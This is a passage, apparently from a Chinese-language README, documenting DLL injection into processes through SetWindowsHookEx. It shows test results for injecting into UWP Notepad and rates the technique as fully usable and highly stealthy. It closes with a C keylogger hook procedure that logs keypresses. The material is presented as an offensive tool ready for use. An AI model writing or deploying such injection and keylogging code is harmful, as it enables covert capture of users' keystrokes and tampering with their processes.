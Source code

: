 | 测试项 | 钩子类型 | 进程 | PID | 结果 |
|-------|---------|------|-----|------|
| 基本注入 | WH_GETMESSAGE (3) | Notepad UWP | 75884 | ✅ 成功 |
| 键盘钩子 | WH_KEYBOARD (2) | Notepad UWP | 75884 | ✅ 成功 |
| 鼠标钩子 | WH_MOUSE (7) | Notepad UWP | 101868 | ✅ 成功 |
| 窗口查找 | - | - | - | ✅ 成功 |
| 列出窗口 | - | - | - | ✅ 成功 |

### 技术验证

✅ **核心机制验证通过**:
1. SetWindowsHookEx 成功设置钩子
2. Windows 自动加载 DLL 到目标进程
3. DllMain(DLL_PROCESS_ATTACH) 被调用
4. 钩子过程可以在目标进程中执行
5. 验证文件成功创建

✅ **验证文件创建**:
- 路径: `C:\Users\Public\setwindowshookex_injection_verified.txt`
- 内容: 包含进程 ID、路径、技术信息
- 证明: DLL 在目标进程中成功加载并执行

✅ **UWP 兼容性**:
- UWP Notepad 可以注入
- 无 AppContainer 沙箱限制（对 Public 目录）

⚠️ **限制**:
- 仅限 GUI 进程（有窗口和消息循环）
- DLL 必须导出钩子过程函数
- 需要知道窗口标题或句柄
- 部分钩子需要用户交互触发

### 技术成熟度

- **可用性**: ✅ 完全可用
- **稳定性**: ✅ 稳定
- **隐蔽性**: 🟢 高（使用合法 API）
- **适用性**: 🟡 中等（仅限 GUI 进程）

---

## 高级用法示例

### 1. 键盘记录器

```c
__declspec(dllexport) LRESULT CALLBACK NextHook(int code, WPARAM wParam, LPARAM lParam) {
    if (code == HC_ACTION) {
        if (wParam == VK_RETURN) {
            LogKeyPress("ENTER");
        } else if (wParam >= 0x41 && wParam <= 0x5A) {
            char key = (char)wParam;
            LogKeyPress(&key);
        }
    }
    return CallNextHookEx(NULL, code, wParam, lParam);
}
```
